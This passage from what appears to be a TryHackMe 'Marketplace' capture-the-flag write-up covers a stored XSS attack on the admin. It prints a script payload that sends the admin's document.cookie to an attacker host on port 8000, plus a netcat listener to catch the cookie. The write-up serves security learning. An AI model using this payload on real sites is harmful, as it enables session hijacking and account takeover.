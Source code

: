 On the page displaying our newly created article, I found something interesting.
![7](/assets/images/thm/marketplace/7.png)
It looks like we can report the listing to the admin and there is the possibility that the admin visits to our listing which will runs the javascript on his browser giving us his cookie.

## Getting Admin's cookie
### Payload used
```js
<script>document.location='http://10.2.3.202:8000/XSS/grabber.php?c='+document.cookie</script>
```
### Listening on port 8000 on our box
```console
local@local:~/Documents/tryhackme/marketplace$ nc -nvlkp 8000
Listening on [0.0.0.0] (family 2, port 8000)
Listening on 0.0.0.0 8000
```

### Creating a new listing
